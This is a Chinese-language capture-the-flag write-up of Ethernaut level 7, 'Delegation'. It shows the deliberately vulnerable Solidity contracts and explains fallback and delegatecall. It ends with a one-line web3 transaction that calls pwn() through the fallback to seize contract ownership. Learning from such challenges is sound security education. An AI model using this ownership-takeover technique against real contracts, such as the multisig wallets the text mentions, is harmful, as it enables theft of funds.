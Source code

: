 ```yaml
---
title: Ethernaut 闯关笔记 第7关 Delegation
date: 2023-12-12 23:42:02
tags:
---
```


# 原始代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {

    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
        this;
        }
    }
}
```

# 知识点

## fallback

当合约被调用且调用时没有声明调用的是哪一个函数的时候，默认调用 `fallback()`

## delegatecall

常用的跨合约调用方法有三个，如果 A 委托合约 B 调用合约 C ：

* `call` ：最常用的调用方式，调用后内置变量 `msg.sender` 的值会修改为调用者B，执行环境为被调用者的运行环境C。
* `delegatecall` ：调用后内置变量 `msg.sender` 的值A不会修改为调用者，但执行环境为调用者的运行环境B
* `callcode` ：调用后内置变量 `msg.sender` 的值会修改为调用者B，但执行环境为调用者的运行环境B

以上内容节选自(这篇博客)[https://blog.csdn.net/weixin_43982484/article/details/125218458]

与此相关的攻击常用于多签钱包。

# 攻击思路

由于 `Delegation` 会将自己的 `calldata` 原封不动地传给 `Delegate` ，因此要想完成调用，只需要将 `"pwn()"` 加密后发送给 `Delegation` 即可。

# 攻击代码

```javascript
contract.sendTransaction({data: web3.utils.keccak256("pwn()")})
```

